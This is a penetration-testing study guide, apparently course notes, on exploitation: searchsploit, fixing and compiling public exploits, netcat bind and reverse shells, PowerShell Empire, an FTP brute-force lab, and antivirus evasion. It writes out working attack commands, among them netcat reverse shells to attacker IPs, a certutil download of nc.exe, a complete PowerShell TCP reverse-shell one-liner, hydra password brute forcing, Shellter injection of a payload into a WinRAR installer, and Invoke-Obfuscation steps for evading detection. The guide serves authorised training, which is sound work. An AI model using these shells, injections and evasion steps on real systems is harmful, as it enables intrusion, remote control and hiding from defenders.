



# Exploitation

### Introduction

* Exploitation consists of techniques and tools used by adversaries/penetration testers to gain an initial foothold on a target system or network.
* Successful exploitation will heavily depend on the nature and quality of information gathering and service enumeration performed on the target. We can only exploit a target if we know what is vulnerable.
* So far, we have covered exploitation of Windows & Linux systems both manually and automatically, however, we still need to get a clearer picture of the exploitation methodology and the tools and techniques involved in the process.

#### Exploitation methodology

* Identify vulnerable services
* Identify & prepare exploit code
* Gaining access
  * Automated - MSF
  * Manual
* Obtain remote access on target system
* Bypass AV detection
* Pivot on to other systems

### Vulnerability scanning

#### Banner grabbing

* Banner grabbing is an information gathering technique used by penetration testers to enumerate information regarding the target operating system as well as the services that are running on its open ports.
* The primary objective of banner grabbing is to identify the service running on a specific port as well as the service version.
* Banner grabbing can be performed through various techniques :
  * Performing a service version detection with Nmap.
  * Connection to the open port with Netcat.
  * Authenticating with the service (if the service support authentication), for example : SSH, FTP, Telnet etc.

```bash
kali@kali> nmap -sV -O 192.9.185.3           # method 1
kali@kali> nmap 192.9.185.3 --script banner  # method 2
kali@kali> nc 192.9.185.3 22                 # method 3
kali@kali> ssh root@192.9.185.3              # method 4
```

### Searching for exploits

#### Publicly available exploits

* After identifying a potential vulnerability within a target or a service running on a target, the next logical step will involve searching for exploit code that can be used to exploit the vulnerability.
* Exploit code can easily be found online, however, it is important to note that downloading and running exploit code against a target can be quite dangerous. It is therefore recommended to analyze the exploit code closely to ensure that it works as intended.
* There are a handful of legitimate and vetted exploit databases that you should use when searching for exploits online :
  * Exploit-db
  * Rapid7
  * PacketStorm

#### Searchsploit

* In certain cases, you may not have access to online exploits and as a result, you must be able to use the exploit sources available locally/offline.
* The entire Exploit-db database of exploits comes pre-packaged with Kali Linux, consequently providing you with all exploits locally.
* The Exploit-db offline database of exploits can be accessed and queried with tool called Searchsploit.

```bash
kali@kali> sudo apt-get update && sudo ap-get install exploitdb -y
kali@kali> ls -la /usr/share/exploitdb
```

| Command                        | Description                                      |
| ------------------------------ | ------------------------------------------------ |
| `searchsploit -u`              | Update.                                          |
| `searchsploit -m 49757`        | Copy module 49757 into current directory.        |
| `searchsploit -c OpenSSH`      | Search with case-sensitive.                      |
| `searchsploit -t OpenSSH`      | Search every module with "OpenSSH" in its title. |
| `searchsploit -e "Windows XP"` | Search exact match "Windows XP".                 |
| `searchsploit -w ftp`          | Show urls.                                       |

### Fixing exploits

#### Fixing exploits

```bash
kali@kali> nmap -sV 10.3.19.221
kali@kali> searchsploit HFS 2.3
kali@kali> searchsploit -m 39161
kali@kali> vim 39161.py
```

<figure><figcaption></figcaption></figure>

You must set the **local IP address** and the **local port number listener** by yours.

```bash
kali@kali> cp /usr/share/windows-resources/binaries/nc.exe .
```

Before executing python script, create a web server `python -m SimpleHTTPServer 80` in a terminal and a netcat listener `nc -lnvp <port_listener>` on a second one.

```bash
kali@kali> python 39161.py 10.3.19.221 80
```

#### Cross-compiling exploits

* In certains cases, exploit code will be developed in C/C++/C#, as a result, you will need to compile the exploit code in to a PE (Portable Executable) or binary.
* Cross-compiling is the process of compiling code for a platform other than the one performing the compilation.
* As a penetration tester, you will need to have the skills necessary to compile exploit code developed in C.

To compile C code into Windows executable, you need `minwg-w64` and `gcc` dependencies.

```bash
# windows
kali@kali> sudo apt-get install mingw-w64 -y
kali@kali> sudo apt-get install gcc -y
kali@kali> searchsploit video lan smb
kali@kali> searchsploit -m 9303

kali@kali> i686-w64-mingw32-gcc 9303.c -o exploit           # x64
kali@kali> i686-w64-mingw32-gcc 9303.c -o exploit -lws2_32  # x32
```

```bash
# linux
kali@kali> searchsploit dirty cow
kali@kali> searchsploit -m 40839

kali@kali> gcc -pthread 40839.c -o exploit -lcrypt
```

### Bind and reverse shells

#### Netcat

* Netcat (Aka TCP/IP Swiss Army Knife) is a networking utility used to read and write data to network connections using TCP or UDP.
* Netcat is available for both \*NIX and Windows operating systems, consequently making it extremely useful for cross-platform engagements.
* Netcat utilizes a client-server communication architecture with 2 modes :
  * Client mode : Netcat can be used in client mode to connect to any TCP/UDP port as well as Netcat listener (server).
  * Server mode : Netcat can be used to listen for connections from clients on a specific port.
*   Netcat can be used by penetration testers to perform the following functionality :

    * Banner grabbing
    * Port scanning
    * Transferring files
    * Bind/reverse shells

    **Linux**

    | Command             | Description                                   |
    | ------------------- | --------------------------------------------- |
    | `nc -n`             | Deactivate host name resolution.              |
    | `nc -v`             | Increase verbose.                             |
    | `nc 10.3.19.249 80` | Connect Netcat to `10.3.19.249` on port `80`. |

    **Windows**

    ```bash
    kali@kali> cd /usr/share/windows-binaries
    kali@kali> python -m SimpleHTTPServer 80
    ```

    ```powershell
    C:\> mkdir Temp
    C:\> cd Temp
    C:\Temp> certutil -urlcache -f http://10.10.20.3/nc.exe nc.exe
    C:\Temp> nc.exe -h
    ```

    ```bash
    kali@kali> nc -lnvp 1234
    ```

    ```powershell
    C:\Temp> nc.exe 10.10.20.3 1234
    ```

    From now, you are able to send messages between both machines. If you set the listener with flags `-lnvup`, the `-u` means UDP protocol.

    ```bash
    kali@kali> nc -lnvup 1234         # server
    C:\Temp> nc -nvu 10.10.20.3 1234  # client

    ```

#### Bind Shell

<figure><figcaption></figcaption></figure>

* A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system.
* A Netcat listener can be setup to execute a specific executable like `cmd.exe` or `/bin/bash` when a client connects to the listener.

```bash
C:\Temp> nc.exe -lnvp 1234 -e cmd.exe
```

```bash
kali@kali> nc 10.3.24.103 1234
C:\Temp> whoami
```

#### Reverse shell

<figure><figcaption></figcaption></figure>

* A reverse shell is a type of remote shell where the target connects directly to a listener on the attacker's system, consequently allowing for execution of commands on the target system.

```bash
kali@kali> nc -lnvp 1234
```

```bash
C:\Temp> nc.exe -nv 10.10.20.4 1234 -e cmd.exe
```

On the Linux terminal a Windows shell pops up.

<figure><figcaption></figcaption></figure>

### Exploitation frameworks

#### PowerShell-Empire

* PowerShell-Empire (Aka Empire) is a pure PowerShell exploitation/post-exploitation framework built on cryptological-secure communications and flexible architecture.
* Empire implements the ability to run PowerShell agents without needing `powershell.exe`, rapidly deployable post-exploitation modules ranging from keyloggers to Mimikatz, and adaptable communications to evade network detection, all wrapped up in a usability-focused framework.
* PowerShell Empire recently received an upadte and is now officialy support and maintained by Kali Linux, more information regarding the update can be found here : https://www.kali.org/blog/empire-starkiller/.

**Starkiller**

* In addition to being updated and modernized, BC Security, the company responsible for maintaining the Empire has also developed a companion to Empire called Starkiller.
* Starkill is GUI frontend for the PowerShell Empire. It is an Electron application written in VueJS and provides users with an intuitive way of interacting with Empire.
* In order to get an understanding of how Empire works and the components that make up the framework, I would recommend going through the official documentation which can be found here : https://www.powershellempire.com/.
* PowerShell-Empire & Starkiller are both available as packages in the Kali Linux repositories.

```bash
kali@kali> sudo powershell-empire server
kali@kali> sudo powershell-empire client

(Empire)> 
```

Go to http://localhost:1337 and enter credentials `empireadmin:password123`. There you have access to Starkiller interface.

### Windows black box

#### Black box

* A black box penetration test is a security assessment whereby the penetration tester is not provided with any information regarding the target system or network (no IP ranges, system information or default credentials are provided).
* The objective of a black box penetration test is to accurately test the security of a system or network as an external unprivileged adversary.
* This approach is very useful as it demonstrate how an external attacker with no inside knowledge would compromise a company's systems or networks.

**Scenario & scopes**

* You have just begun your first job as a Junior Penetration Tester and have been assigned to assist in performing a penetration test on a client's network.
* The pentest lead has assigned you to gain access/exploit a host running on Windows Server 2008.
* Your primary objectives are :
  * Identify services running on the target.
  * Identify vulnerabilitues within the services.
  * Exploit these vulnerabilities to obtain an initial fotohold

_Note : you are permitted to use the MSF._

#### Post scanning

```bash
kali@kali> nmap -sV 10.3.23.161
kali@kali> nmap 10.3.23.161 -T4 -PA -sV -sV -p 1-10000 -oX nmap_10k
kali@kali> service postgresql start && msfconsole
msf6> db_import nmap_10k
```

#### Microsoft IIS FTP

```bash
kali@kali> hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.3.18.2 ftp
kali@kali> hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.3.18.2 ftp
kali@kali> ftp 10.3.18.2  # administrator:vagrant

ftp> get index.html
ftp> echo 'Hello world!' >> index.html
ftp> put index.html
```

The credentials are `administrator:vagrant` `vagrant:vagrant`.

### Linux black box

...

### AV evasion and obfuscation

Defense evasion consists of techniques that adversaries use to avoid detection throughout their compromise. Techniques used for defense evasion include uninstalling/disabling security software or obuscating/encrypting data and scripts. Adversaries also leverage and abuse trusted processes to hide and masquerade their malware.

#### AV detection methods

AV software will typically utilize signature, heuristic and behaviour based detection.

* **Signature based detection** : an AV signature is a unique sequence of bytes that uniquely identifies malware. As a result, you will have to ensure that your obfuscated exploit or payload doesn't match any known signature in the AV database. We can bypass signature-based detection by modifying the malware's byte sequence, therefore changing the signature.
* **Heuristic-based detection** : relies on rules or decisions to determine whether a binary is malicious. It also looks for specific patterns within the code or program calls.
* **Behavior based detection** : relies on identifying malware by monitoring it's behavior (user for newer strains of malware).

#### AV evasion techniques

**On-disk evasion techniques**

* Obfuscation : it refers to the process of concealing something important, valuable, or critical. Obfuscation reorganizes code in order to make it harder to analyze or RE.
* Encoding : encoding data is a process involving changing data into a new format using a scheme. Encoding is a reversible process; data can be encoded to a new format decoded to its original format.
* Packing : generate executable with the new binary structure with a smaller size and therefore provides the payload with a new signature.
* Crypters : encrypts code or payloads and decrypts the ecnrypted code in memory. The decryption key/function is usually stored in a stub.

**In-memory evasion techniques**

* Focuses on manipulation of memory and does not write files to disk.
* Injects payload into a process by leveraging various Windows APIs.
* Payload is then executed in memory in a separate thread.

Shellter is a dynamic injection tool : https://www.shellterproject.com/

```bash
kali@kali> sudo apt-get install shellter -y
kali@kali> sudo dpkg --add-architecture i386
kali@kali> sudo apt-get install wine32 -y
kali@kali> shellter

shellter> A                                  # operation mode
shellter> /home/kali/tmp/winrar-x32-622.exe  # source file
shellter> Y                                  # enable stealth mode?
shellter> L                                  # listed payload or custom?
shellter> 1                                  # select payload by index
shellter> 192.168.81.62                      # set LHOST
shellter> 1234                               # set LPORT
```

#### Obfuscating PowerShell code

As a penetration tester, you will find yourself working with PowerShell code frequently. Most AV solutions will immediatly flag malicious PowerShell code, as a result, you must be able to obfuscate/encode your PowerShell code and scripts in order to avoir detection.

Invoke-Obfuscation is an open source PowerShell v2.0+ compatible PowerShell command and script obfuscator (https://github.com/danielbohannon/Invoke-Obfuscation).

```bash
kali@kali> vi shell.ps1
```

Copy/paste the code in the file `shell.ps1`.

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Then close.

```powershell
kali@kali> pwsh  # start PowerShell

PS> git clone https://github.com/danielbohannon/Invoke-Obfuscation.git
PS> cd Invoke-Obfuscation                  # go in to git repository
PS> Import-Module Invoke-Obfuscation.psd1  # import into PowerShell
PS> Invoke-Obfuscation                     # start tool

Invoke-Obfuscation> set scriptpath /home/kali/tmp/shell.ps1
Invoke-Obfuscation> encoding    # encode code
Invoke-Obfuscation\Encoding> 1  # ASCII encoding
Invoke-Obfuscation\Encoding> back

Invoke-Obfuscation> ast         # obfuscate code
Invoke-Obfuscation\AST> all     # pick all choices
Invoke-Obfuscation\AST\ALL> 1   # execute all AST obfuscation techniques
```
